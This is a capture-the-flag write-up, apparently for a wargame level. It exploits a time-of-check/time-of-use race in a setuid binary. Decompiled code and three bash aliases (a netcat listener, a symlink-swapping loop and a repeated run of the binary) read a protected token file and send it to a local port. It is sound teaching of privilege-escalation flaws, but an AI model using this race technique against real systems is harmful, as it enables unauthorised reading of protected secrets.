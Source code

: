 In the home directory, there is a program named 'level10' and a file named 'token.'

```bash
-rwsr-sr-x+ 1 flag10 level10 10817 Mar 5 2016 level10
-rw------- 1 flag10 flag10 26 Mar 5 2016 token
```

The user level10 is unable to read 'token,' and the program has a setuid to flag10.

In the binary of the file, we can see:

- Test the access to the file:

```c
pcVar6 = in_stack_00000008[1];
param1 = in_stack_00000008[2];
iVar2 = access(in_stack_00000008[1], 4);
```

- Then connect to the address:

```c
local_24.sa_data._2_4_ = inet_addr(param1);
uVar1 = htons(0x1b39);
local_24.sa_data._0_2_ = uVar1;
iVar3 = connect(iVar2, &local_24, 0x10);
```

- And finally open the file:

```c
iVar3 = open(pcVar6, 0);
if (iVar3 == -1) {
  puts("Damn. Unable to open file");
  /* WARNING: Subroutine does not return */
  exit(1);
}
__n = read(iVar3, local_1024, 0x1000);
```

The offset between the verification of the read-write and the opening of the file allows us
the time to change the file to open another file than the one verified.

To solve this exercise, I used several commands to achieve the race condition:

First, I need to listen at port 6969:

```bash
alias listen="while true; do nc -l 6969; done"
```

Then I need to set a link to a file that can be read by the level10 user and set it back to the token:

```bash
alias race="touch /tmp/dummy; while true; do ln -sf /tmp/dummy /tmp/link && ln -sf $(realpath token) /tmp/link; done"
```

I need to start the program 'level10' to send the value of 'token' to 127.0.0.1:

```bash
alias send="while true; do ./level10 /tmp/link 127.0.0.1; done"
```

The final commands combines everything and executes parallel 'listen,' 'send,' and 'race' in two diferent terminal to easyly get the information.